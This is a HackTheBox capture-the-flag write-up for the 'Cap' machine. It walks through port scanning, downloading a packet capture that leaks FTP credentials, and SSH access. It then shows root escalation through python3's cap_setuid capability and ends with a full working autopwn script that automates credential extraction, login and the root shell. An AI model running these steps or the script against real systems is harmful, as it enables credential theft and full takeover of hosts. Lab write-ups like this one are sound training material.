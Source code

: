 ```yaml
---
title: Cap Writeup [HTB]
tags: [HackTheBox, Linux capabilities, Python]
image: /assets/images/cap/cap.png
published: true
banner: true
---
```


Cap is a Linux based machine that was active since June 5th of 2021 to October 2nd, on this machine we will find a packet capture file where we will find some credentials for the machine, connect with them through SSH, and find that python3 has setuid privilege, using it we will set us the uid of root (0), and spawn a shell finishing with the machine, since the machine is really short I will also leave a autopwn script at the end that automates everything.

# [](#header-1)Enumeration

We start using masscan to find all the available ports and then use nmap to get more information about them.

```bash
masscan -e tun0 --rate=500 -p 0-65535 10.10.10.245
nmap -sC -sV -p 22,80,21, -Pn -o scan.txt 10.10.10.245

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sat, 05 Jun 2021 19:05:18 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>

Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun  5 14:07:39 2021 -- 1 IP address (1 host up) scanned in 137.04 seconds
```

We see three ports open, FTP, SSH and an HTTP server, so we start with the HTTP server.

![](/assets/images/cap/website.png)

# [](#header-1)Gaining Access

We see a kind of security page, if we access to IP Config we will the output of `ifconfig`, if we enter to netstat we will se the output of `netstat`, but if we enter to security snapshot, which points to http://10.10.10.245/capture, we are redirected to another page.

![](/assets/images/cap/data.png)

We are redirected to data/3 on this case, on this page we can download a packet capture file about the last connections that were made to the machine, we can try to see any older one, also let's remember that on programing the start is not 1, is 0, so we go to data/0, download 0.pcap and checking its contents we can see a commication with the FTP server, remember to always use encrypted channels.

![](/assets/images/cap/pcap.png)

We got some credentials for the FTP server, but they also work on SSH, so now we can get access to the machine and retrieve user.txt.

![](/assets/images/cap/shell.png)

# [](#header-1)Privilege Escalation

By the name of the machine I though that the privilige escalation path would be due to capabilities, so the first thing I did was look for any file with capabilities, to do so I ran, `getcap -r / 2> /dev/null`.

![](/assets/images/cap/cappy.png)

We see that python3 has "cap_setuid", set, if we go the [manual](https://man7.org/linux/man-pages/man7/capabilities.7.html) we find what it means: `Make arbitrary manipulations of process UIDs`, so we can manipulate the UID of process, the easiest way to exploit this is import os module, and changing our UID and spawning a shell.

![](/assets/images/cap/root.png)

And with that we have finished with the machine, if you knew about linux capabilities this is one of the easiest machines on HTB, but if you don't I can image this could take you a while to undertand.

# [](#header-1)Autopwn

Since the machine was really easy I decided to write an autopwn script for the machine, this one gets the IP of the machine as argument, downloads the 0.pcap file, parses it with scapy, connects through SSH using pwntools and elevates the shell to root.

```python
#!/usr/bin/env python3

import requests
from scapy.all import *
from pwn import *
import signal
import sys
import time


def def_handler(sig, fram):
    print ("Exiting...\n")
    sys.exit(1)

#Ctrl+C
signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) < 2:
    print ("Please provide the IP of the machine")
    print ("Usage example: python3 autopwn.py 10.10.10.245")
    sys.exit(1)

def log_mess(message):
    p1.status(message)
    time.sleep(1)
    
ip = sys.argv[1]
p1 = log.progress("Pwning")

log_mess("Downloading pcap")
pcap = requests.get("http://" + ip + "/download/0").content
save = open("0.pcap",'wb')
save.write(pcap)
save.close

log_mess("Parsing the pcap file")
time.sleep(1)
packets = rdpcap("0.pcap")
for pkt in packets:
    if pkt.haslayer(TCP) and pkt.dport == 21 and pkt.haslayer(Raw):
        payload = pkt[Raw].load.decode("utf-8").strip()
        if payload.find("USER") != -1:
            print (f'User found!: {payload}')
            username = payload.split()[1]
        elif payload.find("PASS") != 1:
            print (f'Password found!: {payload}')
            password = payload.split()[1]
            break
            
log_mess("Connecting to SSH")
shell = ssh(user=username,password=password,host=ip).shell()
shell.recv(1024)

log_mess("Getting user flag")
shell.send("cat user.txt\n")
time.sleep(1)
log.success("User flag: " + shell.recv(1024).decode('utf-8').split("\n")[1])

log_mess("Escalating privileges")
shell.send("python3 -c \"import os;os.setuid(0);os.system('/bin/bash')\"\n")
time.sleep(1)
shell.recv(1024)
shell.send("id\n")
time.sleep(1)
log.success("We are root: " + shell.recv(1024).decode('utf-8').split("\n")[1])

log_mess("Getting root flag")
shell.send("cat /root/root.txt\n")
time.sleep(1)
log.success("Root flag: " + shell.recv(1024).decode('utf-8').split("\n")[1])

p1.success("Machine owned!!")
shell.interactive()
```

![](assets/images/cap/autopwn.gif)